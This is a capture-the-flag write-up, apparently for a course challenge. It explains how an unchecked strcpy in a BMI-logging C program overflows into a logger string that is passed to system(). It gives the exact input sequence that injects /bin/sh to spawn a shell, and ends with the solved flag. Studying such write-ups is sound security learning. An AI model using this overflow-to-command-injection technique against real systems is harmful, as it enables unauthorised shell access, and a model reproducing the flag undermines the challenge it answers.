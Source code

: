 ## The End

[end](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/the-end/end)  
[end.c](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/the-end/end.c)

> Let's analyze the main() function

```C
int main() {
    setup();

    show_menu();

    app.list = (struct Person *) malloc(sizeof(struct Person) * 20);

    strcpy(app.stats.logger, "echo \"-- total: %d, average BMI: %.2f --\" >> log.txt"); //vulnerable
    app.stats.total_bmi = 0;
    app.stats.total_count = 0;

    while(1) {
        printf("\nChoose action: ");
        int op = read_int();

        if (op == 1) {
            add_person();
        } else if (op == 2) {
            delete_person();
        } else if (op == 3) {
            select_person();
            calculate_bmi();
        } else if (op == 4) {
            break;
        } else {
            printf("What?\n");
        }
    }

    char command[COMMAND_MAX_LENGTH];
    snprintf(command, COMMAND_MAX_LENGTH, app.stats.logger,
             app.stats.total_count, app.stats.total_bmi / app.stats.total_count);

    system(command);

    exit(0);
}
```

> The line `system(command);` is key because if we could make command to be `/bin/sh`, we can spawn a shell. Hence our aim is to overflow and write into `app.stats.logger` since it is being copied into the command variable during `snprintf()`.

```C
struct Info {
    char  logger[COMMAND_MAX_LENGTH];
    int   total_count;
    float total_bmi;
};

struct Person {
    char name[NAME_MAX_LENGTH];
    int  age;
    int  gender;
    int  height;
    int  weight;
};

struct App {
    struct Person *list;
    struct Person selected;
    struct Info   stats;
} app;
```
> From examining the structs stored in memory, we can note that the logger is stored in the struct `Info`. In the struct `App`, we can see that the Person list and Person selected comes before Info, which contains our logger.

```C
void select_person() {
    printf("Index (0-19): ");
    int index = read_int();
    if (index < 0 || index > 19) {
        printf("Aha! Doing something bad huh?");
        return;
    }

    struct Person *p = &app.list[index];

    strcpy(app.selected.name, p->name);
    app.selected.age = p->age;
    app.selected.gender = p->gender;
    app.selected.height = p->height;
    app.selected.weight = p->weight;
}
```

> We can explore further to note that `select_person()` copies the name of the person into `app.selected.name` using the unsafe `strcpy()`. Hence if we overflow the length that is copied by enough characters, it would write into the logger, and if we write `/bin/sh` into the logger it would be put into the system() and open up a shell.

> When the name of a person is not null terminated, then select_person() would copy the name, and everything after that into the `selected.name` until it reaches a null character. Hence we have to ensure that the age, gender, height, weight does not convert into null character when split into 4 (Since they are ints), by storing -1 into all of them (so they convert to 4 `\xFF` characters)

> Also, when the name of the person is the same length as the struct of the person, it is still not long enough (only able to overwrite till the end of the selected person struct).
Thus, we should store another person directly after the first person. Then when we copy the first person name it would copy all the way through the second person name until it reaches a null character (which we can set using 0).

> The following inputs first stores 16 characters into the first person name (as that is the max length of the name) and -1 into all the other fields. Then it stores /bin/sh into the second person name. Then we choose option 3 to select the first person, and then option 3 again to select the second person and finally press 4 to break out of the while loop and run the command in the logger.

```
1
0
AAAAAAAAAAAAAAAA
-1
-1
-1
-1

1
1
/bin/sh
0
0
0
0

3
0

3
1

4
```

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/the-end/Solved.png)  

`CS2107{tH3_End_7o_ThE_3ND_1s_Th3_Be91nNInG}`
